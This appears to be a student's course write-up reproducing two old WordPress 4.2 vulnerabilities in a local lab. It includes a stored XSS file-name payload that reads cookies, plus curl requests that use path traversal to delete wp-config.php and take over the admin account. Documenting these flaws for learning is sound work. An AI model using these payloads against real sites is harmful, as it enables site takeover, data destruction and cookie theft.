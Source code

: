 # Project 7 - WordPress Pentesting

Time spent: **6** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. CVE-2016-7168 Authenticated Stored XSS Via Image File Name
  - [ ] Summary: 
    - Vulnerability types: XSS (stored), Social Engineering
    - Tested in version: 4.2
    - Fixed in version: 4.2.10
  - [ ] GIF Walkthrough: https://github.com/zipesb/codepath_2022/blob/unit7_wordpress/unit7_vuln1.gif
  - [ ] Steps to recreate: Only tested in Linux. Use social engineering to provide image file to admin that contains malicious HTML/script in the image name (such as the example in Assets [1.1](https://github.com/zipesb/codepath_2022/edit/unit7_wordpress/README.md#11-example-malicious-image-file-name-vulnimg-srca-onerroralertdocumentcookiejpg)) and get admin to upload it to the wordpress site. When users view the page containing the uploaded attachment, the HTML/script stored in the image will execute. Possibly restricted to Linux and Mac OS as Windows disallows characters such as "<" in file names.
  - [ ] Affected source code: https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0
    - [wpscan page](https://wpscan.com/vulnerability/e84eaf3f-677a-465a-8f96-ea4cf074c980)
### 2. CVE-2018-12895 Authenticated Arbitrary File Deletion
  - [ ] Summary: 
    - Vulnerability types: Improper Authentication (leads to arbitrary file deletion)
    - Tested in version: 4.2
    - Fixed in version: 4.2.21
  - [ ] GIF Walkthrough: https://github.com/zipesb/codepath_2022/blob/unit7_wordpress/unit7_vuln2.gif
  - [ ] Steps to recreate: As a user with Author privileges, upload a image. Then navigate to the page to edit the image ```http://192.168.33.10/wp-admin/post.php?post=17&action=edit```(replace ?post parameter with the numerical id of the image that was uploaded, can be seen in the URL as the ?item parameter when viewing the image from the media tab). On this page, copy the cookies and the wpnonce value from the post form in the HTML into the appropriate places in the curl command in Assets [2.1](https://github.com/zipesb/codepath_2022/edit/unit7_wordpress/README.md#21-example-command-to-set-the-image-thumbnail-as-the-file-to-be-maliciously-deleted-in-this-case-deleting-the-wp-configphp-file-curl--v-http1921683310wp-adminpostphppost17--h-cookie-wordpress_ba4e3f1944a184cb3113f616618065deauthor_user7c16474841987cvabdpdltpheswpx2ecz6as38upnu9b8ws7vtotsbxtj7c1048b25d5ff8cba59ff69d9acd57c14253e92e40f35e94f781554298543b4903-wordpress_test_cookiewpcookiecheck-wp-settings-time-11647310661-wp-settings-time-21647311267-wp-settings-2mfold3do-wordpress_logged_in_ba4e3f1944a184cb3113f616618065deauthor_user7c16474841987cvabdpdltpheswpx2ecz6as38upnu9b8ws7vtotsbxtj7c808ae5c845d32fc6c6f1f989dcae303b9f3e5b622df1f662b5c637f8bb7a2db3--d-actioneditattachment_wpnonced4ea7fca1dthumbwp-configphp). Send this curl command, then find the wpnonce value from the file deletion form and place it into the curl command in Assets [2.2](https://github.com/zipesb/codepath_2022/edit/unit7_wordpress/README.md#22-curl-request-to-delete-image-and-newly-associated-thumbnail-curl--v-http1921683310wp-adminpostphppost17--h-cookie-wordpress_ba4e3f1944a184cb3113f616618065deauthor_user7c16474841987cvabdpdltpheswpx2ecz6as38upnu9b8ws7vtotsbxtj7c1048b25d5ff8cba59ff69d9acd57c14253e92e40f35e94f781554298543b4903-wordpress_test_cookiewpcookiecheck-wp-settings-time-11647310661-wp-settings-time-21647311267-wp-settings-2mfold3do-wordpress_logged_in_ba4e3f1944a184cb3113f616618065deauthor_user7c16474841987cvabdpdltpheswpx2ecz6as38upnu9b8ws7vtotsbxtj7c808ae5c845d32fc6c6f1f989dcae303b9f3e5b622df1f662b5c637f8bb7a2db3--d-actiondelete_wpnonce593d226e9c). When this command is sent it will delete the file that was associated with the image file as its thumbnail because Wordpress fails to make the appropriate checks if this file actually is the image thumbnail and should be deleted. In this example specifically, deleting wp-config.php can allow a user to escalate privileges as Wordpress mistakenly thinks the site has not been configured at all due to the missing config file, and it will prompt the user to create new admin credentials.
  - [ ] Affected source code: https://github.com/WordPress/WordPress/commit/c9dce0606b0d7e6f494d4abe7b193ac046a322cd
    - [wpscan page](https://wpscan.com/vulnerability/42ab2bd9-bbb1-4f25-a632-1811c5130bb4)
### 3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)


## Assets

List any additional assets, such as scripts or files
### [1.1] (example malicious image file name): ```vuln\<img src=a onerror=alert(document.cookie)>.jpg```
### [2.1] (example command to set the image thumbnail as the file to be maliciously deleted, in this case deleting the wp-config.php file): ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=17' -H 'Cookie: wordpress_ba4e3f1944a184cb3113f616618065de=author_user%7C1647484198%7CVABdPDLtphesWPx2ecz6as38upnu9b8Ws7vtotSbxTj%7C1048b25d5ff8cba59ff69d9acd57c14253e92e40f35e94f781554298543b4903; wordpress_test_cookie=WP+Cookie+check; wp-settings-time-1=1647310661; wp-settings-time-2=1647311267; wp-settings-2=mfold%3Do; wordpress_logged_in_ba4e3f1944a184cb3113f616618065de=author_user%7C1647484198%7CVABdPDLtphesWPx2ecz6as38upnu9b8Ws7vtotSbxTj%7C808ae5c845d32fc6c6f1f989dcae303b9f3e5b622df1f662b5c637f8bb7a2db3' -d 'action=editattachment&_wpnonce=d4ea7fca1d&thumb=../../../../wp-config.php'```
### [2.2] (curl request to delete image and newly associated "thumbnail"): ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=17' -H 'Cookie: wordpress_ba4e3f1944a184cb3113f616618065de=author_user%7C1647484198%7CVABdPDLtphesWPx2ecz6as38upnu9b8Ws7vtotSbxTj%7C1048b25d5ff8cba59ff69d9acd57c14253e92e40f35e94f781554298543b4903; wordpress_test_cookie=WP+Cookie+check; wp-settings-time-1=1647310661; wp-settings-time-2=1647311267; wp-settings-2=mfold%3Do; wordpress_logged_in_ba4e3f1944a184cb3113f616618065de=author_user%7C1647484198%7CVABdPDLtphesWPx2ecz6as38upnu9b8Ws7vtotSbxTj%7C808ae5c845d32fc6c6f1f989dcae303b9f3e5b622df1f662b5c637f8bb7a2db3' -d 'action=delete&_wpnonce=593d226e9c'```

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with ScreenToGif.

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
